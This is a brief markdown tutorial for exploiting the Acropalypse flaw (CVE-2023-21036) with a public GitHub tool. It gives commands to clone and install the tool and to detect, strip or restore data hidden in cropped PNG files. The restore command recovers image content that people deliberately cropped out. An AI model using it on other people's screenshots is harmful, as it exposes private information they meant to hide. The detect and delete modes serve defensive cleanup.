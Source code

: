 ```yaml
---
title: Acropalypse EXPLOIT
published: true
---
```


# How to exploit Acropalypse - CVE-2023-21036
[Tool used for exploit](https://github.com/Absenti/acropalypse_png).

``` 
git clone https://github.com/Absenti/acropalypse_png
cd acropalypse_png
pip install pillow numpy
python acropalypse_png.py detect <cropped_png>
python acropalypse_png.py delete <cropped_png> <output_png>
python acropalypse_png.py restore <type_exploit> <cropped_png> <reconstructed_png>
```
